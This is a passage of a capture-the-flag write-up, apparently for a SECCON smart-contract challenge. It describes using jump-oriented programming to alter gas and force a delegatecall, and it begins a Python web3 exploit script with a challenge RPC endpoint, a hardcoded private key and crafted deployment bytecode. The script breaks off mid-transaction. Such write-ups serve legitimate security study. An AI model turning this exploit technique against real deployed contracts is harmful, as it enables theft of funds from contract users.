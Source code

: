 We need to use JOP (Jump Oriented Programming) to:

- change gas to a large value
- delegate call

in one transaction.

There is a useful function `load`, which consumes 2 values, and then puts 3 values to stack.

The solving process is like: assign random values -> trace -> find where did it jump.

```python
from web3 import Web3
import json

setup_abi = '''[
    {
        "inputs": [],
        "stateMutability": "nonpayable",
        "type": "constructor"
    },
    {
        "inputs": [],
        "name": "isSolved",
        "outputs": [
            {
                "internalType": "bool",
                "name": "",
                "type": "bool"
            }
        ],
        "stateMutability": "view",
        "type": "function"
    },
    {
        "inputs": [],
        "name": "tokyoPayload",
        "outputs": [
            {
                "internalType": "contract TokyoPayload",
                "name": "",
                "type": "address"
            }
        ],
        "stateMutability": "view",
        "type": "function"
    }
]'''

w3 = Web3(Web3.HTTPProvider('http://tokyo-payload.seccon.games:8545/311e8d31-866e-4cc2-933b-fbe46a356918'))

privkey = '0x17706dd8c3a54e8190600797f229205e50df83b3de12e329429952fc1abbf7c3'
setup = w3.eth.contract('0x74E6003A1183Fbf3B7991DA74E89245e382ddF6c', abi=json.loads(setup_abi))
contract_addr = setup.functions.tokyoPayload().call()
print(contract_addr)
account = w3.eth.account.from_key(privkey)

build_code = bytes.fromhex('6005600060003960056000f3')
build_code = build_code[:3] + bytes([len(build_code)]) + build_code[4:] + b'\x60\x01\x60\x00\x55'
tx = {
    'from': account.address,
    'gasPrice': 10**9,
    'data': build_code,
    'to': None,
    'nonce': w3.eth.get_transaction_count(account.address),
```